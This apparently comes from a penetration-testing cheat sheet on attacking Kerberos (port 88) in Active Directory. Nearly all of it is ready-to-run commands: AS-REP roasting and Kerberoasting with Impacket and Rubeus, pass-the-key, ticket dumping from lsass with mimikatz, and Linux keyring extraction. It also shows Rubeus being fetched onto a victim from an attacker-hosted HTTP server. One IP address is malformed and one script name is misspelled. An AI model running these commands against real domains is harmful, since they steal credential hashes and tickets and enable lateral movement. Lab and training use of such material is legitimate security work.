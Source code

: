 # Kerberos - 88

## Kerberos Information

Kerberos is a protocol for authentication, not authorization. In other words, it allows for the identification of each user who provides a secret password, but it does not validate which resources or services this user has access to. Active Directory makes use of Kerberos. Kerberos provides information about each user's privileges on this platform, but it is the responsibility of each service to determine whether the user has access to its resources.

Default Port: 88/tcp/udp

```text
PORT   STATE SERVICE
88/tcp open  kerberos-sec
```

## Abuse Kerberos

### ASEPRoasting

If the Kerberos pre-authentication has been disabled for an account, that means that it is vulnerable to ASREPRoasting. As soon as we have a username, we can use the GetNPUsers script from Impacket to retrieve its password hash:

```text
GetNPUsers.py domain/ -request -no-pass -dc-ip 10.10.10.11 -usersfile users.txt 2>/dev/null
GetNPUsers.py domain/username -request -no-pass -dc-ip 10.10.10.11
```

After capturing the hash, you can then copy the TGT in a file and try to crack it with john or hashcat.

Alternatively, we can use GetUserSPNs.py

```text
GetUsersSPNs.py htb.local/username:password@10.10.10.1671 -dc-ip 10.10.10.161 2>/dev/null
```

### Rubeus ASREPRoasting

```text
Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>
```

### Kerberoasting from the Attacker Machine

If Kerberos is open, then you may try a Kerberoasting attack with GetUsersSPNs script from Impacket:

```text
impacket-GetUserSPNs domain.local/user:password -request 
impacket-GetUserSPNs domain.local/user:password -request -dc-ip 10.10.10.10
```

If Kerberos was port forwarded to your localhost then you may try the following:

```text
impacket-GetUserSPNs domain.local/user:password -request -dc-ip 127.0.0.1
GetUserSPNs.py htb.local/svc-alfresco:s3rvice@10.10.10.161 -request -dc-ip 10.10.10.161
```

### Kerberoasting on Victim Machine

#### Rubeus

Rubeus.exe is one of the many tools that can perform a Kerberoasting attack on the victim machine.

Clone rubeus.exe on the attacker machine

```text
git clone https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
```

Set up a listener to transfer the file to the victim machines

```text
python -m http.server 80
```

Download the file from the attacker's machine.

```text
iwr -uri http://10.10.10.11/Rubeus.exe -OutFile Rubeus.exe
```

Execute the Kerberoasting attack on the victim machine \(in this example we will perform a Kerberoasting with alternate credentials\)

```text
C:\temp\Rubeus.exe -> check the roating possibilities
C:\temp\Rubeus.exe kerberoast /creduser:domain.local\user /credpassword:password1234
```

You will then see the hash that you can copy into the attacker machine and try to crack it with john or hashcat.

#### Rubeus Alternative

```text
Rubeus.exe kerberoast /outfile:output_TGS_file
```

```text
Rubeus.exe kerberoast /outfile:hashes.txt [/spn:"SID-VALUE"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."]
```

### Pass the key \(PTK\)

```text
.\Rubeus.exe asktgt /domain: /user: /rc4: /ptt
```

### Harvesting Tickets from Windows

The lsass \(Local Security Authority Subsystem Service\) process, which is responsible for security in Windows, handles and stores tickets. As a result, in order to obtain tickets from a Windows machine, you must contact with lsass and request them. Only owned tickets can be retrieved as a non-administrative user; however, as a machine administrator, you can harvest all of them.

```text
mimikatz # sekurlsa::tickets /export
# Rubeus when Mimikatz doesn't work.
.\Rubeus dump [IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<BASE64_TICKET>"))
```

### Harvesting Tickets from Linux

Extract  tickets from Linux Kernel Keyrings \(read the repo\):

{% embed url="https://github.com/TarlogicSecurity/tickey" %}

```text
/tmp/tickey -i
```



